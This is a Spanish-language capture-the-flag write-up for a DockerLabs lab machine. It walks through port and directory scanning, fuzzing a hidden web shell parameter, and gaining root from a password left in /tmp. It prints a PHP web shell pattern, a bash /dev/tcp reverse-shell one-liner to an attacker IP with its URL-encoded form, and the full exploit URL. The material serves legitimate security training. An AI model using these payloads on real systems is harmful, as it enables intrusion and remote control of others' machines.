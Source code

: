 [[Writeups]]
#Writeups #Easy #DockerLabs 

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general:

```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 16:27 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.06 seconds
```

Parece que solo hay un servicio http, vamos a hacer un escaneo más profundo:

```bash
❯ sudo nmap -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 16:28 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

Se ve que es una web de enseñanza de ingles, vamos a buscar en el navegador a ver como esta la web:

![webIngls.png](assets/webIngls.png)

Una web muy sencilla, al final de la web vemos este mensaje:

![tmpIngls.png](assets/tmpIngls.png)

Usamos gobuster para ver directorios que puedan estar escondidos:

```zsh 
❯ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2 -x php,html,txt,js,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,js,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323354 / 1323360 (100.00%)
===============================================================
Finished
===============================================================

```

La pagina warning tiene este mensaje:

![warningShell.png](assets/warningShell.png)

y la web shell.php da error al entrar, por lo que intuimos del mensaje y del directorio shell, tenemos que añadir en la url un parámetro para que shell.php se ejecute, con esto vamos a usar la herramienta wfuzz ya que la diferencia de gobuster podemos especificar donde queremos que haga la fuerza bruta.

Intuimos que la webshell sería algo así:

```php
<?php	system($_GET['Parametro_que_no_sabemos']); ?>
```

así que ponemos el siguiente comando con WFUZZ:

```zsh
❯ wfuzz -c --hc=404,500 -t 100 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzzs documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                      
=====================================================================

000115401:   200        2 L      2 W        21 Ch       "parameter"                                                                                                  
 /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 159255
Filtered Requests: 159254
Requests/sec.: 0
```

y efectiviwonder, encontramos el parametro, vamos a probarlo en la web:

![parameterDir.png](assets/parameterDir.png)

aunque tenemos esta shell vamos a obtenerla en una temrinal loca para tener un uso mas comodo, para eso vamos a insertar una rev shell one liner de bash encodeada en formato url:

```zsh

bash -c "bash -i >& /dev/tcp/192.168.1.217/1234 0>&1"

#Este comando le asignamos nuestra ip y el puerto de escucha y lo encodeamos a formato URL y obtenemos este:

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.217%2F1234%200%3E%261%22

```

nos ponemos a las escucha con net cat:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```

nos quedaría esta url:

```zsh
http://172.17.0.2/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.217%2F1234%200%3E%261%22
```

y obtenemos acceso:

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 44604
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@7d3bb0410a30:/var/www/html$ 
```

ahora vamos a ver en la carpeta tmp de la raíz por el primer mensaje que obtuvimos en la web:

```zsh
www-data@7d3bb0410a30:/var/www/html$ cd /
cd /
www-data@7d3bb0410a30:/$ cd tmp
cd tmp
www-data@7d3bb0410a30:/tmp$ ls -la
ls -la
total 4
drwxrwxrwt 1 root root  22 May 25 15:11 .
drwxr-xr-x 1 root root 152 May 25 15:11 ..
-rw-r--r-- 1 root root  21 Apr 12 16:07 .secret.txt
www-data@7d3bb0410a30:/tmp$ cat .secret.txt
cat .secret.txt
contraseñaderoot123

```

vaya, tenemos la contraseña de root, por lo que solo nos cambiaremos al ususario root con la contraseña y ya habriamos vulnerado completamente la maquina:

![rootWhereIsMyShell.png](assets/rootWhereIsMyShell.png)
